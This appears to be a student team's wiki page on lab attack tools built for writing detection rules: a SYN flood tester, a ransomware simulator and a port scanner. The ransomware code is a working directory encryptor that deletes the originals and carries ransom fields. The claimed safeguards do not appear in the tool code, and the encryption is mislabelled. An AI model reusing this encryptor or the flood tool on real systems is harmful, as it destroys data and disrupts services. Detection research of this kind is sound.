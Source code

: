 ## Research Scope Expansion

Beyond wiki development and team mentorship, this research includes custom exploit automation with:
1. Network Stress Testing Tools (SYN Flood)
2. Malware Simulation (Educational Ransomware)
3. Infrastructure Auditing (Intelligent Port Scanner)

All tools feature:
- Automatic HTML report generation
- Proof-of-concept visual documentation
- Ethical usage safeguards

## Custom Tool Development

### SYN Flood Attack Tool
Purpose: Demonstrate a denial of service attack

Wireshark view:
![DOS Wireshark](https://github.com/LunaLynx12/GISC/blob/main/wiki/Attack%20Scripts/Petre%20Radu%20Catalin/images/1.png?raw=true)

Code Structure:

```python
#!/bin/python3
def syn_attack():
    parser = argparse.ArgumentParser(
        description="Ethical SYN Flood Tester",
        epilog="Example: python main.py --target 192.168.1.100 --count 2000 --do-report"
    )
    parser.add_argument("--target", required=True, help="Target IP address")
    parser.add_argument("--count", type=int, default=1000, help="Packet count")
    parser.add_argument("--port", type=int, default=80, help="Target port")
    parser.add_argument("--do-report", action="store_true", help="Generate HTML report")
    parser.add_argument("--safeguard", action="store_true", default=True, 
                       help="Enable ethical safeguards (default: True)")

    args = parser.parse_args()

    try:
        start_time = time.time()
        
        attacker = SYNFlooder(args.target, args.port)
        attacker.send_flood(args.count)
        
        if args.do_report:
            duration = time.time() - start_time
            AttackReporter.generate_syn_report(
                target=args.target,
                packets=args.count,
                duration=duration
            )

    except Exception as e:
        print(f"[!] Error: {str(e)}")
        sys.exit(1)
```

Example usage: 

![DOS terminal](https://github.com/LunaLynx12/GISC/blob/main/wiki/Attack%20Scripts/Petre%20Radu%20Catalin/images/2.png?raw=true)

SYN Flood Report

![DOS report](https://github.com/LunaLynx12/GISC/blob/main/wiki/Attack%20Scripts/Petre%20Radu%20Catalin/images/3.png?raw=true)
Fig 1.1: HTML report showing 2,000 packets sent to DVWA 

### Educational Ransomware Simulator
Purpose: Demonstrate file encryption risks

Key Features:

```python
#!/bin/python3

def simulate_encryption(target_dir):
    files_encrypted = 0
    encryption_algorithm = "AES-256-CBC"

    key = Fernet.generate_key()
    cipher = Fernet(key)

    for root, _, files in os.walk(target_dir):
        for file in files:
            if not file.endswith(".encrypted"):
                old_path = os.path.join(root, file)
                new_path = old_path + ".encrypted"
                try:
                    with open(old_path, 'rb') as f:
                        data = f.read()
                    encrypted_data = cipher.encrypt(data)
                    with open(new_path, 'wb') as f:
                        f.write(encrypted_data)
                    os.remove(old_path)
                    files_encrypted += 1
                    print(f"[+] Encrypted: {new_path}")
                    time.sleep(0.05)
                except Exception as e:
                    print(f"[!] Failed to encrypt: {old_path} ({e})")
    
    return files_encrypted, encryption_algorithm

if __name__ == "__main__":
    target_directory = "test_data"
    ransom_amount = "0.05 BTC"
    payment_wallet = "1A1zP1eP5QGefi2DMPTfTL5SLmv7DivfNa"
    contact_email = "helpdesk@lunalynx.local"
    
    encrypted_count, algorithm_used = simulate_encryption(target_directory)
    
    RansomwareReporter.generate_report(
        target_dir=target_directory,
        files_encrypted=encrypted_count,
        encryption_algorithm=algorithm_used,
        ransom_amount=ransom_amount,
        payment_wallet=payment_wallet,
        contact_email=contact_email
    )

```

Ransomware Raport

![Ransomware report](https://github.com/LunaLynx12/GISC/blob/main/wiki/Attack%20Scripts/Petre%20Radu%20Catalin/images/4.png?raw=true)

Fig 1.2: Simulation report showing encrypted test files and recovery key

### Intelligent Port Scanner
Purpose: Enhanced DVWA service discovery

Code Structure:

```python
#!/bin/python3
from scanner import scan_target
from reporter import generate_firewall_report

def main():
    print("=== Misconfigured Firewall Simulation ===")
    ip = input("[?] Enter target IP: ").strip()
    results = scan_target(ip)
    if results:
        print(f"[+] Found {len(results)} risky open ports.")
        generate_firewall_report(ip, results)
    else:
        print("[✓] No open risky ports found.")

if __name__ == "__main__":
    main()

```

Port Scan Report

![Firewall misconfig report](https://github.com/LunaLynx12/GISC/blob/main/wiki/Attack%20Scripts/Petre%20Radu%20Catalin/images/5.png?raw=true)

Fig 1.3: Auto-generated report identifying open ports on DVWA host

## Ethical Implementation
#### Safety Protocols
- All tools include kill switches:

```python
if target_ip.startswith(("10.","192.168.")) == False:
    sys.exit("ABORT: Public IPs blocked")
```
- Network tools throttle to 1Mbps max

- Ransomware only processes /test_files directory


## Research Impact
| Tool           | Primary Purpose              | Team Member Supported       | Use Case Example                                           |
|----------------|------------------------------|-----------------------------|-----------------------------------------------------------|
| SYN Flood      | DDoS Simulation              | Gavrila Iulian-Gabriel      | Testing correlation rules for DDoS detection in Splunk    |
| Ransomware     | File Encryption Simulation   | Patrascu Nicolae Adrian     | Developing rules for ransomware behavior            |
| Port Scanner   | Service Discovery            | Oprea Ionut-Alexandru       | Identifying firewall misconfigurations in lab environments |

## Report Templates
Available in `/wiki/reports/`:

- [syn_flood_report.html](https://htmlpreview.github.io/?https://raw.githubusercontent.com/LunaLynx12/GISC/main/wiki/Attack%20Scripts/Petre%20Radu%20Catalin/reports/syn_flood_report.html
)

- [ransomware_simulation_report.html](https://htmlpreview.github.io/?https://raw.githubusercontent.com/LunaLynx12/GISC/main/wiki/Attack%20Scripts/Petre%20Radu%20Catalin/reports/ransomware_simulation_report.html)

- [firewall_misconfig_report.html](https://htmlpreview.github.io/?https://raw.githubusercontent.com/LunaLynx12/GISC/main/wiki/Attack%20Scripts/Petre%20Radu%20Catalin/reports/firewall_misconfig_report.html)

